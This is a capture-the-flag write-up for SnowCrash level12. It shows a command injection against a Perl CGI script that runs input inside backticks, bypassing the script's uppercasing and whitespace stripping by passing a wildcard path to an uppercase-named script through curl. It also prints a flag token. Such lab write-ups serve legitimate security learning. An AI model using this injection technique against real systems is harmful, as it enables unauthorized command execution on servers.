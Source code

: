 When we started the level12 there is:
- A binary called **level12.pl**

Like in **level04**, the perl script use the argument in a backtilt to execute a command.
The idea is as simple as the **level04**, but this time, the perl project make the whole string uppercase and remove all the caracters behind the first whitespace.

```pl
$xx = $_[0];
$xx =~ tr/a-z/A-Z/;
$xx =~ s/\s.*//;
@output = `egrep "^$xx" /tmp/xd 2>&1`;
```
With this, a simple command injection won't work.

To get around this, we created a script with a name in full uppercase:

```bash
level12@SnowCrash:~$ echo > /tmp/TEST '#!/bin/bash
> getflag > /tmp/flag'
level12@SnowCrash:~$ chmod +x /tmp/flag 
```

We then use curl to inject the script with a wildcard as x to make the perl execute the script:

```bash
curl localhost:4646?x='`/*/TEST`'
```

We then cat ``/tmp/flag`` and we get:

```
Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr
```